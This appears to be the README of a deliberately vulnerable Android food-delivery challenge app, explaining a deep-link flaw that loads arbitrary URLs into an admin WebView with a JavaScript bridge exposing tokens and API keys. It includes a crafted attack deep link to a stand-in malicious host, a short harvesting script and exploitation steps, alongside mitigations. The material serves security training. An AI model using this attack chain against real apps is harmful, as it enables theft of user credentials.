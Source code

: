 # oxo-android-ben49 - Deeplink Information Disclosure

## Challenge Details

### Description

This Android application demonstrates a critical **Deeplink Information Disclosure** vulnerability. The app's deep link handling mechanism exposes sensitive administrative interfaces and allows unauthorized access to privileged WebView components containing confidential user data and system information.

### Primary Vulnerability: Deeplink Information Disclosure

The application's `DeepLinkRouter.java` contains a dangerous information disclosure vulnerability through its deep link processing mechanism. Specifically:

**Critical Flow Path (`DeepLinkRouter.java:84-87`)**:
- The `handleSupportDeepLink()` method accepts a "support" host with an "admin" section parameter
- When `section=admin` and `custom_url` is provided, it directly loads the URL into `AdminWebViewActivity`
- This bypasses normal authentication and access controls

**Information Disclosure Impact (`AdminWebViewActivity.java:28-29`)**:
- The WebView exposes a JavaScript interface with `getUserData()` and `getSystemInfo()` methods
- These methods connect to a Flask backend server that returns sensitive information including:
  - User tokens: `"secret_token_123"`
  - API keys: `"sk_live_12345"`  
  - User email addresses and admin privileges
  - System debug information

### Vulnerability Types and Categories
- **Type:** Information Disclosure via Deeplink Manipulation  
- **Primary Category:** Mobile Deep Link Security
- **Impact:** Unauthorized access to sensitive user data and system credentials

### Difficulty
High

## Application Architecture

### Android Application (`src/`)
This food delivery app includes:
- **MainActivity.java**: Main food menu interface with RecyclerView for browsing items and shopping cart functionality
- **DeepLinkRouter.java**: Handles deep link routing for various app sections (webview, promotion, support)
- **AdminWebViewActivity.java**: Privileged WebView with JavaScript bridge that exposes sensitive API calls
- **Food.java & FoodAdapter.java**: Data models and RecyclerView adapter for food items
- **AndroidManifest.xml**: Defines deep link schemes (`foodapp://` and `fooddelivery://`)

### Backend Server (`server/`)
Flask-based API server that provides sensitive data endpoints:
- **app.py**: Main Flask application with vulnerable endpoints:
  - `/api/user-data`: Returns user credentials and tokens
  - `/api/system-info`: Returns system information and API keys
- **Dockerfile**: Container configuration for the Flask server
- **docker-compose.yml**: Service orchestration configuration
- **requirements.txt**: Python dependencies (Flask 2.3.3, Flask-CORS 4.0.0)

## Build Instructions

### Android Application
This project uses Android Studio with Java.

1. Open the project in Android Studio
2. Update your SDK versions as required (compileSdkVersion >= 36 recommended)
3. Ensure minimum SDK version 31 is available
4. Build and deploy the app to an emulator or Android device

#### Dependencies
- AndroidX AppCompat
- Material Design Components
- ConstraintLayout
- RecyclerView
- OkHttp3 (for API calls)

### Backend Server
1. Navigate to the `server/` directory
2. Run with Docker: `docker-compose up -d`
3. Or run locally: `pip install -r requirements.txt && python app.py`
4. Server runs on port 5000 and exposes the vulnerable API endpoints

## Technical Analysis

### Deeplink Information Disclosure Flow

The vulnerability exploits the following execution path:

1. **Deep Link Entry Point** (`AndroidManifest.xml:30-37`):
   ```
   foodapp://support/admin?section=admin&custom_url=https://malicious.com/harvest.html
   ```

2. **Routing Logic** (`DeepLinkRouter.java:80-91`):
   - `handleSupportDeepLink()` extracts the `section` and `custom_url` parameters
   - No validation of the `custom_url` parameter when `section=admin`
   - Direct call to `loadAdminWebView()` with untrusted URL

3. **Privileged WebView Instantiation** (`DeepLinkRouter.java:123-128`):
   - Creates intent for `AdminWebViewActivity` 
   - Sets `enable_js_interface=true` flag
   - Passes unvalidated URL to privileged WebView

4. **Information Disclosure** (`AdminWebViewActivity.java:19-26`):
   - Enables JavaScript interface with `Admin` object
   - Exposes `getUserData()` and `getSystemInfo()` methods to any loaded content
   - No origin validation or access controls

### Exposed Sensitive Data

The JavaScript interface exposes:
- **User Credentials**: userId, email, authentication token
- **API Keys**: Live production API key (`sk_live_12345`)
- **System Information**: Version, debug status, internal configuration

### Attack Scenarios

**Scenario 1: Direct Information Harvesting**
```javascript
// Malicious webpage content
var userData = Admin.getUserData();
var systemInfo = Admin.getSystemInfo();
// Exfiltrate data to attacker-controlled server
```

**Scenario 2: Privilege Escalation**
- Attacker gains admin-level access through exposed interface
- Can potentially interact with other privileged app components

## Exploitation Steps

1. **Craft Malicious Deep Link**: Create a deep link pointing to attacker-controlled webpage
2. **Deploy Harvesting Script**: Host JavaScript that calls exposed interface methods
3. **Trigger Deep Link**: Use various methods (email, SMS, malicious app) to trigger the link
4. **Data Exfiltration**: Collect exposed sensitive information

## Impact Assessment

- **Confidentiality**: HIGH - Direct exposure of user tokens and API keys
- **Integrity**: MEDIUM - Potential for privilege escalation attacks  
- **Availability**: LOW - No direct impact on service availability

## Mitigation Strategies

### Immediate Fixes
1. **Remove JavaScript Interface**: Disable or remove the Admin JavaScript interface entirely
2. **URL Validation**: Implement strict allowlist validation for admin WebView URLs
3. **Authentication Gates**: Require proper authentication before accessing admin features

### Security Improvements
1. **Deep Link Validation**: Implement comprehensive input validation for all deep link parameters
2. **Origin Verification**: Validate the source of deep link requests
3. **Least Privilege**: Remove unnecessary privileged interfaces from WebViews